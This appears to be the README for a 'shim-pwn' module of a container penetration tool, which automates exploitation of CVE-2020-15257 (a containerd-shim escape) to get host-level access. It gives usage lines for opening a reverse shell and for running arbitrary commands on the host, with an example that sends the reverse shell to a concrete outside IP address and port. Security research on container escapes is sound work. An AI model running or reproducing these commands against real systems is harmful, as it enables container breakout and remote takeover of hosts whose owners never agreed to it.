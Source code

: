 自动化逃逸CVE-2020-15257，反弹宿主机的shell到远端服务器。  
  
Automatic exploit CVE-2020-15257, spawn a reverse shell with host privilege to remote server.  
  
## Usage
```
reverse shell
./cdk run shim-pwn reverse <RHOST> <RPORT>

execute command
./cdk run shim-pwn "<shell_cmd>"
```

## Example

reverse shell
```
./cdk run shim-pwn reverse 47.104.151.168 111
```

![](https://static.cdxy.me/20201214184459_yQsUbB_Screenshot.jpeg)

execute command
```
./cdk run shim-pwn "touch /tmp/exploit_success"
```